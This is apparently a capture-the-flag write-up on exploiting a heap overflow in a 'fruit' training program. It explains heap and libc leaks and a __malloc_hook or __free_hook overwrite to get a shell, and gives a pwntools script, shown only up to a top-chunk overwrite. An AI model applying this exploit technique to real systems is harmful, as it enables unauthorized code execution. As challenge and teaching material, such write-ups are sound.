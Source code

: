As you can see, after a random amount of time, both coolness and tastiness will be greater than 50, and then you can change the name of the fruit in question. However, the new length of the name can be greater than the previous length that was already allocated, this leads to a heap overflow.

### Getting a heap leak
Every time we make a new fruit, the name of the fruit is a pointer to an array of chars, where the array is located in the heap. By making 2 fruits and overwriting the first one's name in order to connect to the next fruits name pointer, we can get a heap leak.

### Getting a libc leak
By changing the size of the top chunk to a certain value, we can invoke a free() call. How? When the size of the top chunk is smaller than the value we want to allocate, the top chunk will be freed and mmap will be called, mapping a new arena. If the size of the top chunk during this time is of a small/large bin, the chunk will be freed and moved to the unsorted bin. Now, for chunks that are freed and put into the unsorted bin, both its fd and bk pointers will point to main arena, which is in libc.

By combining both techniques above, we can get both in just 2 fruits and 3 evolves.

### What next
Well not only can the overwrite of the name pointer be an arbitrary read, but it can also be an arbitrary write. With the libc leak overwriting \_\_malloc\_hook or \_\_free\_hook can result in getting a shell.

Here's my full exploit:

```python
import sys
from pwn import *

if '--local' in sys.argv:
   p = process('./soal')
else:
   p = remote(sys.argv[1], int(sys.argv[2]))

def new_fruit(size, name):
   p.recvuntil("choice", timeout=2)
   p.sendline('1')
   p.sendlineafter(")", str(size))
   p.sendlineafter("?", name)

def train_fruit(num):
   p.sendline('2')
   p.sendlineafter("?\n", num)

def list_fruits():
   p.recvuntil("choice")
   p.sendlineafter(":", '3')
   p.recv(1024)

new_fruit(0x50, "Zafir")
list_fruits()

l = ''
while "evolving" not in l: 
   train_fruit('0')
   l = p.recv(1024)
p.sendlineafter('(y/n)', 'y')
p.sendlineafter('s)', '96')
payload = p64(0x0101010101010101)*11 + p64(0xf71)
p.sendlineafter("be?", payload)

new_fruit(0x1000, "A"*0x8)

```
